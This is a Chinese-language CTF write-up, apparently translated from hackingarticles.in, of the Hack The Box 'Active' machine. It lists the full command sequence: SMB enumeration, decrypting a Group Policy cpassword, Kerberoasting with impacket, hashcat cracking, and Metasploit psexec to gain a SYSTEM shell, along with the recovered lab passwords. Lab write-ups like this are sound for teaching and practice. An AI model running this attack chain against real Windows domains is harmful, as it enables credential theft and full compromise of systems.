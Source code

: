 ```yaml
---
layout:     post
title:      Hack the box 匿名登录
date:       2018-12-23
author:     Wh0ale
header-img: img/19s_by_wlop-dbsw09i.jpg
catalog: true
tags:
    - Hackthebox
---
```


### 0x01渗透方法

**扫描网络**

- 打开端口和运行服务（Nmap）

**列举**

- 识别共享文件（Linux4enum）
- 通过匿名登录访问共享文件（smbclient）
- 解密cpassword（Gpprefdecrypt.py）

**通过SMB连接访问Victim的Shell**

- 访问共享文件用户登录
- 获取User.txt

**特权升级**

- 查找服务主体名称（**py**）
- 破解哈希（Hashcat）
- Psexec Exploit（Metasploit）
- 获取root.txt

**演练**

### 0x02扫描网络

注意：由于这些实验室可在线使用，因此它们具有静态IP。Active的IP是10.10.10.100

让我们从我们的基本nmap命令开始，找出开放的端口和服务。



| 1    | nmap -sV 10.10.10.100 |
| ---- | --------------------- |
|      |                       |

![img](https://i1.wp.com/1.bp.blogspot.com/-dnDjdZCe7Hk/XA-huvjSwRI/AAAAAAAAbrs/hxVCkBaw5pMHEtDhMEF7V0BOgLHfdnCuACLcBGAs/s1600/1.png?w=687&ssl=1)

从Nmap扫描结果可以看出，有很多开放端口及其运行服务，操作系统是Microsoft Windows server 2008：r2：sp1，您还可以读取域名“active.htb”。

### 0x03enum4liux

当我看到端口445打开时，我尝试了永久的蓝色攻击，但我想这是SMB的补丁版本，因此我必须从enum4linux脚本开始。众所周知，它是SMB枚举的最佳脚本。



| 1    | ./enum4liux -S 10.10.10.100 |
| ---- | --------------------------- |
|      |                             |

它显示了/ Replication共享文件的匿名登录。

![img](https://i0.wp.com/1.bp.blogspot.com/-6NYnddCNXJ8/XA-hv7aplzI/AAAAAAAAbr4/NmNPKL8A4_cytSlmxj4zPLKMrkYUCAiiACLcBGAs/s1600/2.png?w=687&ssl=1)

然后我尝试使用help smbclient访问/ Replication并运行以下命令通过匿名帐户访问此目录：



| 1    | smbclient //10.10.10.100/Replication |
| ---- | ------------------------------------ |
|      |                                      |

![img](https://i0.wp.com/2.bp.blogspot.com/-CExPLGoLP5w/XA-hwH3cjXI/AAAAAAAAbr8/RwkVSMwcNqQ86aiXBeb6LgGOZckcbK-5ACLcBGAs/s1600/3.png?w=687&ssl=1)

在这里，我下载了从以下路径中找到的Groups.xml文件：



| 1    | \active.htb\Policies\{31B2F340–016D-11D2–945F-00C04FB984F9}\MACHINE\Preferences\Groups\ |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

所以在这里我发现**cpassword**嵌入Groups.xml用户属性值**SVC_TGS**。

![img](https://i2.wp.com/3.bp.blogspot.com/-iHqY36FKTZY/XA-hwbH0PTI/AAAAAAAAbsE/qb9Ps9fw-7AvwJHuZ1rPGZVUYMDfd2f-wCLcBGAs/s1600/4.png?w=687&ssl=1)

因此，我从GitHub下载了一个python脚本“Gpprefdecrypt”来解密通过Windows 2008组策略首选项（GPP）添加的本地用户的密码并获取密码：*GPPstillStandingStrong2k18*。



| 1    | python Gpprefdecrypt.py < cpassword attribute value > |
| ---- | ----------------------------------------------------- |
|      |                                                       |

![img](https://i0.wp.com/3.bp.blogspot.com/-K9d8NIeuCbI/XA-hwUCxoFI/AAAAAAAAbsA/ssJDj3eoKWc-T5RBvRuxEeFe_V_8a6mEQCLcBGAs/s1600/5.png?w=687&ssl=1)

### 0x04通过SMB连接访问Victim的Shell

使用以上凭证，我们在以下命令的帮助下连接到SMB，并成功捕获我们的第一个标志“user.txt”文件。



| 1    | smbclient //10.10.10.100/Users -U SVC_TGS |
| ---- | ----------------------------------------- |
|      |                                           |

![img](https://i1.wp.com/1.bp.blogspot.com/-HL_Id7bfKzE/XA-hwwgBwHI/AAAAAAAAbsI/e0RvpZ1igbo3q41bjak3-DkPc9s5WldnQCLcBGAs/s1600/6.png?w=687&ssl=1)

现在，是时候寻找root.txt文件，并且为了获得root.txt文件，我们需要升级root权限，因此我们在本地机器的/ etc / hosts文件中添加Host_IP和Host_name。

![img](https://i0.wp.com/1.bp.blogspot.com/-2oRQ-3p3Qlo/XA-hxIKu-cI/AAAAAAAAbsQ/zER1m4jlfcEjHPUGA1EayqA6-BmAl_eewCLcBGAs/s1600/7.png?w=687&ssl=1)

### 0x05特权升级

在nmap扫描结果中，我们看到端口88对于Kerberos是开放的，因此它们很多是与普通用户帐户关联的一些服务主体名称（SPN）。因此，我们从Github下载并安装**impacket**以使用其python类**GetUserSPN.py**



| 1    | ./GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

我将哈希值复制到文本文件“hash.txt”中进行解密。

![img](https://i0.wp.com/2.bp.blogspot.com/-KGaDNmSAm9k/XA-hxEd4r3I/AAAAAAAAbsM/g0BJz6EY83EnMoBvCIzhJzIpK5yQq0TggCLcBGAs/s1600/9.png?w=687&ssl=1)

然后在hashcat的帮助下我们找到了哈希模式，结果它显示了**13100** for Kerberos 5 TGS-REP etype 23



| 1    | hashcat -h \|grep -i tgs |
| ---- | ------------------------ |
|      |                          |

最后，是时候破解哈希并使用rockyou.txt wordlist获取密码。



| 1    | hashcat -m 13100 hash.txt -a 0 /usr/share/wordlists/rockyou.txt --force ---show |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

欢呼！！！我们得到了它，Ticketmaster1968为管理员。

![img](https://i0.wp.com/4.bp.blogspot.com/-QzhxJqW15ao/XA-huoedgyI/AAAAAAAAbro/iBkNybKZJ_I35csgIbNqJXRJpOgydIv3QCLcBGAs/s1600/10.png?w=687&ssl=1)

在没有浪费时间的情况下，我加载了metaploit框架并运行以下模块来生成完整的权限系统shell。



| **1** | **msf > use exploit/windows/smb/psexe**                      |
| :---: | :----------------------------------------------------------- |
| **2** | **msf exploit windows/smb/psexec) > set rhost 10.10.10.100** |
| **3** | **msf exploit(windows/smb/psexec) > set smbuser administrator** |
| **4** | **msf exploit(windows/smb/psexec) > set smbpass Ticketmaster1968** |
| **5** | **msf exploit(windows/smb/psexec) > exploit**                |

**BOOOMMM .....................**

**现在我们在root shell中，让我们追逐root.txt文件并完成这个挑战。**

**![img](https://i2.wp.com/2.bp.blogspot.com/-axCn2RU2x5c/XA-huvqLjaI/AAAAAAAAbrw/rxxeWtfAFYw_OdkaPxsNNHAXpXbwCGYUgCLcBGAs/s1600/12.png?w=687&ssl=1)**

**Yuppieee！我们发现我们的第二个标志是/ Users / Administrator / Desktop中的root.txt文件格式。**

**![img](https://i1.wp.com/4.bp.blogspot.com/-EQvO6hoxWN8/XA-hvbJNxfI/AAAAAAAAbr0/KYIqruBleQYhEy7BAb2wYaFbKvcnreTCQCLcBGAs/s1600/13.png?w=687&ssl=1)**



翻译文章：https://www.hackingarticles.in/